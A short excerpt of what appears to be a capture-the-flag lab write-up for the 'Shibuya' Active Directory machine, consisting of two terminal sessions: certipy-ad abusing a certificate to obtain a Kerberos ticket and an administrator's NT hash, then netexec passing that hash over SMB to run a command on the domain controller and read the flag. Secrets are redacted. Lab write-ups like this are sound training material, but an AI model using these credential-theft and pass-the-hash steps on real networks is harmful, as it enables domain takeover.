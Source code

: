 ```bash
➜  Shibuya proxychains -q certipy-ad auth -pfx '_admin.pfx' -dc-ip 10.10.64.180
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: _admin@shibuya.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to '_admin.ccache'
[*] Trying to retrieve NT hash for '_admin'
[*] Got hash for '_admin@shibuya.vl': aad3b435b51404eeaad3b435b51404ee:<REDACTED>
```

```bash
➜  Shibuya proxychains -q netexec smb shibuya.vl -u _admin -H <REDACTED>-x 'type c:\users\administrator\desktop\root.txt'
SMB         10.10.64.180    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.180    445    AWSJPDC0522      [+] shibuya.vl\_admin:<REDACTED>(Pwn3d!)
SMB         10.10.64.180    445    AWSJPDC0522      [+] Executed command via wmiexec
SMB         10.10.64.180    445    AWSJPDC0522      VL{<REDACTED>}
```
